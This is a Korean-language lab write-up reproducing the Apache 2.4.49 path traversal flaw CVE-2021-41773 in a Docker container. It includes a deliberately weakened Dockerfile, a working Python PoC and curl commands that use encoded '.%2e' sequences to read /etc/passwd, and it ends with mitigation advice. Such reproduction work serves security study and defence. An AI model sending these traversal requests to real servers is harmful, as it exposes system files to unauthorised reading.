



# CVE-2021-41773 Apache HTTP Server Path Traversal 취약점 분석

## 1. 취약점 개요

CVE-2021-41773은 Apache HTTP Server 2.4.49 버전에서 발생한 Path Traversal 취약점이다.

Apache 2.4.49에서는 경로 정규화(path normalization) 처리 과정에 문제가 존재한다. 공격자가 특수하게 인코딩된 경로를 포함한 HTTP 요청을 전송하면, 웹 루트(DocumentRoot) 바깥의 파일에 접근할 수 있다.

본 실습에서는 Docker 환경에서 Apache HTTP Server 2.4.49를 실행한 뒤, 조작된 URL 요청을 통해 컨테이너 내부의 `/etc/passwd` 파일이 노출되는 것을 확인하였다.

> 주의: 본 실습에서 읽힌 `/etc/passwd`는 호스트 PC의 파일이 아니라 Docker 컨테이너 내부의 파일이다.

---

## 2. 영향받는 버전 및 취약 조건

### 영향받는 버전

- Apache HTTP Server 2.4.49

### 취약 조건

본 취약점은 다음 조건에서 재현된다.

1. Apache HTTP Server 2.4.49 버전을 사용한다.
2. 공격자가 HTTP 요청을 보낼 수 있다.
3. 서버 설정상 대상 경로에 대한 접근이 허용되어 있다.
4. URL 인코딩된 `.%2e` 패턴을 이용해 상위 디렉터리 접근이 가능하다.

본 실습에서는 CVE 재현을 위해 Apache 2.4.49 이미지를 기반으로 취약 환경을 구성하였다. 또한 재현 가능성을 높이기 위해 실습용 Apache 설정에서 디렉터리 접근 제어를 의도적으로 완화하였다. 이 설정은 취약점 재현을 위한 것이며, 실제 운영 환경에서는 사용하면 안 된다.

---

## 3. 취약점 원리

일반적인 웹 서버는 사용자가 웹 루트 디렉터리 바깥의 파일에 접근하지 못하도록 요청 경로를 정규화하고 차단해야 한다.

그러나 Apache HTTP Server 2.4.49에서는 특정 인코딩된 경로가 올바르게 정규화되지 않아, 공격자가 다음과 같은 요청을 보낼 수 있다.

```text
/cgi-bin/.%2e/.%2e/.%2e/.%2e/etc/passwd
```

여기서 `.%2e`는 URL 인코딩을 해석하면 `..`과 같은 의미가 된다. 따라서 서버가 이를 잘못 처리하면 다음과 같이 상위 디렉터리로 이동하는 경로가 된다.

```text
/cgi-bin/../../../../etc/passwd
```

이로 인해 정상적으로는 접근할 수 없어야 하는 웹 루트 외부의 시스템 파일이 노출될 수 있다.

본 실습에서는 이 원리를 이용해 Apache 컨테이너 내부의 `/etc/passwd` 파일을 읽는 방식으로 취약점을 재현하였다.

---

## 4. 환경 구성

본 실습 환경은 Docker Compose를 이용해 구성하였다.

### 파일 구성

```text
Apache/CVE-2021-41773/
├── Dockerfile
├── docker-compose.yml
├── poc.py
└── images/
    ├── 1_compose_up.png
    ├── 2_service_check.png
    └── 3_poc_success.png
```

### Dockerfile

```dockerfile
FROM httpd:2.4.49

# CVE-2021-41773 재현을 위해 Apache 2.4.49의 기본 설정을 기반으로
# Directory 접근 제어를 의도적으로 완화한다.
RUN cp /usr/local/apache2/conf/httpd.conf /usr/local/apache2/conf/httpd.conf.bak && \
    sed -i 's/#ServerName www.example.com:80/ServerName localhost/' /usr/local/apache2/conf/httpd.conf && \
    sed -i '0,/Require all denied/s//Require all granted/' /usr/local/apache2/conf/httpd.conf && \
    printf '<h1>CVE-2021-41773 Apache HTTP Server 2.4.49</h1>\n' > /usr/local/apache2/htdocs/index.html
```

### docker-compose.yml

```yaml
services:
  apache:
    build: .
    container_name: cve-2021-41773-apache
    ports:
      - "8080:80"
```

`docker-compose.yml`에서는 현재 디렉터리의 Dockerfile을 기반으로 취약 Apache 환경을 빌드하고, 호스트의 `8080` 포트를 컨테이너 내부의 `80` 포트와 연결한다.

---

## 5. 실행 방법

다음 명령어를 사용해 취약 환경을 실행한다.

```bash
docker compose up -d --build
```

컨테이너 실행 상태를 확인한다.

```bash
docker compose ps
```

정상적으로 실행되면 `cve-2021-41773-apache` 컨테이너가 `Up` 상태로 표시된다.



---

## 6. 서비스 동작 확인

Apache 서버가 정상적으로 실행되었는지 확인한다.

```bash
curl http://localhost:8080
```

Windows PowerShell 환경에서는 다음과 같이 실행할 수 있다.

```powershell
curl.exe http://localhost:8080
```

정상 실행 시 다음과 같은 응답이 출력된다.

```html
<h1>CVE-2021-41773 Apache HTTP Server 2.4.49</h1>
```



---

## 7. PoC 코드

본 실습에서는 `poc.py`를 사용하여 취약점을 재현하였다.

```python
import http.client
import sys

if len(sys.argv) != 2:
    print("Usage: python poc.py <host:port>")
    print("Example: python poc.py localhost:8080")
    sys.exit(1)

target = sys.argv[1]
payload_path = "/cgi-bin/.%2e/.%2e/.%2e/.%2e/etc/passwd"

conn = http.client.HTTPConnection(target, timeout=10)
conn.request("GET", payload_path)
res = conn.getresponse()
body = res.read().decode(errors="ignore")

print(f"[+] Target: http://{target}")
print(f"[+] Payload: {payload_path}")
print(f"[+] HTTP Status: {res.status}")
print("=" * 60)
print(body)
print("=" * 60)

if "root:x:0:0:" in body:
    print("[+] PoC Success: /etc/passwd file was disclosed.")
else:
    print("[-] PoC Failed: /etc/passwd was not disclosed.")
```

이 PoC는 `/cgi-bin/.%2e/.%2e/.%2e/.%2e/etc/passwd` 경로로 HTTP 요청을 전송한다. 이후 응답 본문에 `root:x:0:0:` 문자열이 포함되어 있는지 확인하여 `/etc/passwd` 파일 노출 여부를 판단한다.

---

## 8. 재현 절차

PoC를 실행한다.

```bash
python poc.py localhost:8080
```

PoC는 다음 경로로 HTTP 요청을 전송한다.

```text
/cgi-bin/.%2e/.%2e/.%2e/.%2e/etc/passwd
```

요청이 성공하면 응답 본문에 `/etc/passwd` 파일 내용이 포함된다.

curl을 이용해 직접 확인할 수도 있다.

```bash
curl --path-as-is "http://localhost:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/etc/passwd"
```

Windows PowerShell 환경에서는 다음과 같이 실행할 수 있다.

```powershell
curl.exe --path-as-is "http://localhost:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/etc/passwd"
```

`--path-as-is` 옵션은 curl이 URL 경로를 임의로 정규화하지 않고, 입력한 경로를 그대로 서버에 전달하도록 하기 위해 사용하였다.

---

## 9. 실행 결과

PoC 실행 결과, HTTP 응답 코드 `200`이 반환되었고 응답 본문에 `/etc/passwd`의 내용이 포함되어 출력되었다.

```text
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...
```

`poc.py`에서는 응답 본문에 `root:x:0:0:` 문자열이 포함되어 있는지 확인하도록 작성하였다. 실행 결과 다음과 같이 파일 노출이 확인되었다.

```text
[+] PoC Success: /etc/passwd file was disclosed.
```



이를 통해 Apache HTTP Server 2.4.49 환경에서 조작된 경로 요청을 통해 웹 루트 외부 파일에 접근할 수 있음을 확인하였다.

---

## 10. 위험도 평가

본 취약점의 위험도는 `7.5 / 10.0`으로 평가하였다.

CVE-2021-41773은 별도의 인증 없이 원격 HTTP 요청만으로 악용될 수 있다는 점에서 위험도가 높다. 공격자는 특수하게 인코딩된 경로를 포함한 요청을 전송하여 웹 루트 바깥의 파일에 접근할 수 있다. 본 실습에서는 `/etc/passwd` 파일이 응답으로 노출되는 것을 확인하였다.

다만 본 실습에서 재현한 영향은 컨테이너 내부 파일 노출이며, 서버 측 명령 실행까지는 재현하지 않았다. Apache 설정에서 CGI 실행이 활성화된 경우 더 큰 영향으로 이어질 수 있으나, 본 보고서에서는 Path Traversal을 통한 파일 노출을 중심으로 검증하였다.

따라서 본 실습 환경에서는 기밀성 침해 가능성이 높고, 무결성 및 가용성에 대한 직접적인 영향은 확인하지 못한 것으로 평가하였다.

---

## 11. 대응 방안

가장 우선적인 대응은 Apache HTTP Server 2.4.49 버전 사용을 중단하고, 취약점이 수정된 버전으로 업그레이드하는 것이다. CVE-2021-41773은 특정 버전의 경로 정규화 처리 문제에서 발생하므로, 패치된 버전을 사용하는 것이 근본적인 대응이다.

또한 웹 서버 설정에서 웹 루트 외부 경로에 대한 접근이 허용되지 않도록 해야 한다. 특히 불필요한 Alias, CGI, Directory 설정을 점검하고, 기본적으로 접근을 차단한 뒤 필요한 경로만 명시적으로 허용하는 방식이 안전하다.

운영 환경에서는 웹 서버 로그에서 `.%2e`, `%2e%2e`, `../`와 같은 Path Traversal 시도 패턴을 모니터링할 필요가 있다. 컨테이너 환경에서는 취약한 이미지 태그를 그대로 사용하지 않도록 주의하고, 이미지 스캔을 통해 알려진 취약 버전이 포함되어 있는지 주기적으로 확인해야 한다.

---

## 12. 정리

본 실습에서는 Apache HTTP Server 2.4.49에서 발생한 CVE-2021-41773 Path Traversal 취약점을 Docker 환경에서 재현하였다.

`docker compose up -d --build` 명령으로 취약 환경을 실행하고, PoC 요청을 통해 컨테이너 내부의 `/etc/passwd` 파일이 노출되는 것을 확인하였다.

이를 통해 경로 정규화 처리 오류가 웹 루트 외부 파일 노출로 이어질 수 있음을 확인하였다. 실제 운영 환경에서는 취약 버전 사용을 중단하고, 접근 제어 설정과 보안 패치를 적용해야 한다.

---

## 13. 참고자료

- CVE Record: https://www.cve.org/CVERecord?id=CVE-2021-41773
- NVD: https://nvd.nist.gov/vuln/detail/CVE-2021-41773
- Apache HTTP Server Vulnerabilities: https://httpd.apache.org/security/vulnerabilities_24.html
- Docker Hub httpd Image: https://hub.docker.com/_/httpd